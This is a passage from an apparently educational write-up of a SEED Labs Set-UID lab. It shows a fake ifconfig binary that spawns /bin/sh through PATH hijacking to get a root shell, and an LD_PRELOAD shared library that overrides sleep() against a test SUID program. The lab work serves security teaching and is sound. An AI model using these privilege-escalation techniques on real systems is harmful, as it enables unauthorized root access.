 Now if we create a ifconfig in `/home/seed/bin`, it will be used by the SUID program:

```c
// ifconfig.c
// ifconfig is in /home/seed/bin
#include <stdlib.h>
int main(){
	system("/bin/sh");
	return 0;
}
```

![Screen Shot 2018-11-26 at 10.09.33 PM.png]({{ site.url }}/images/seed/BD51D550313AB2648A4E6830C84FC361.png)

And we will get a root shell.

### 022 Task 7 The LD_PRELOAD Environment Variable and Set-UID Programs

> In Linux, LD_LIBRARY_PATH is a colon-separated set of directories where libraries should be searched for first, before the standard set of directories. LD_PRELOAD specifies a list of additional, user-specified, shared libraries to be loaded before all others. In this task, we will only study LD_PRELOAD.

```c
// mylib.c
#include <stdio.h>
void sleep (int s){
    /* If this is invoked by a privileged program,
        you can do damages here!  */
    printf("I am not sleeping!\n");
}
```

```bash
gcc -fPIC -g -c mylib.c
gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
export LD_PRELOAD=./libmylib.so.1.0.1
```

Now create a vulnable SUID program in the same directory:

```c
/* myprog.c */
int main(){
    sleep(1);
    return 0;
}
```

![Screen Shot 2018-11-27 at 8.04.18 AM.png]({{ site.url }}/images/seed/00D2844CD2855157C0D722EC66462BBE.png)

From Task 5 we know that `LD_*` will not be passed to SUID processes. 

### 023 Task 8 Invoking External Programs Using system() versus execve()

